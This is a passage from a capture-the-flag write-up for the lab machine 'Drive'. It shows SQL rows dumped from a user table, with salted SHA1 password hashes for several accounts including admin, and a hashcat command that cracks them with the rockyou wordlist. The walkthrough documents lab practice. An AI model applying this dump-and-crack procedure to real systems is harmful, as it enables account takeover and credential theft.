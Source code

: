 ```
INSERT INTO accounts_customuser VALUES(21,'sha1$W5IGzMqPgAUGMKXwKRmi08$030814d90a6a50ac29bb48e0954a89132302483a','2022-12-26 05:48:27.497873',0,'jamesMason','','','jamesMason@drive.htb',0,1,'2022-12-23 12:33:04');
INSERT INTO accounts_customuser VALUES(22,'sha1$E9cadw34Gx4E59Qt18NLXR$60919b923803c52057c0cdd1d58f0409e7212e9f','2022-12-24 12:55:10',0,'martinCruz','','','martin@drive.htb',0,1,'2022-12-23 12:35:02');
INSERT INTO accounts_customuser VALUES(23,'sha1$kyvDtANaFByRUMNSXhjvMc$9e77fb56c31e7ff032f8deb1f0b5e8f42e9e3004','2022-12-24 13:17:45',0,'tomHands','','','tom@drive.htb',0,1,'2022-12-23 12:37:45');
INSERT INTO accounts_customuser VALUES(24,'sha1$ALgmoJHkrqcEDinLzpILpD$4b835a084a7c65f5fe966d522c0efcdd1d6f879f','2022-12-24 16:51:53',0,'crisDisel','','','cris@drive.htb',0,1,'2022-12-23 12:39:15');
INSERT INTO accounts_customuser VALUES(30,'sha1$jzpj8fqBgy66yby2vX5XPa$52f17d6118fce501e3b60de360d4c311337836a3','2022-12-26 05:43:40.388717',1,'admin','','','admin@drive.htb',1,1,'2022-12-26 05:30:58.003372');
```

this would give us the following file that we could try to crack using hashcat

```
sha1$W5IGzMqPgAUGMKXwKRmi08$030814d90a6a50ac29bb48e0954a89132302483a
sha1$E9cadw34Gx4E59Qt18NLXR$60919b923803c52057c0cdd1d58f0409e7212e9f
sha1$kyvDtANaFByRUMNSXhjvMc$9e77fb56c31e7ff032f8deb1f0b5e8f42e9e3004
sha1$ALgmoJHkrqcEDinLzpILpD$4b835a084a7c65f5fe966d522c0efcdd1d6f879f
sha1$jzpj8fqBgy66yby2vX5XPa$52f17d6118fce501e3b60de360d4c311337836a3
```

next we fire up hashcat with the following command to try and crack these passwords. We could see that one password was able to be cracked out of all of these. however when trying this password on the user it belonged to (tom) it didnt'work.
```
hashcat -m 124 hash /usr/share/wordlists/rockyou.txt -w 4 -o Cracked --force
```
![Hashes cracked](/assets/img/Drive/Drive_11.png)
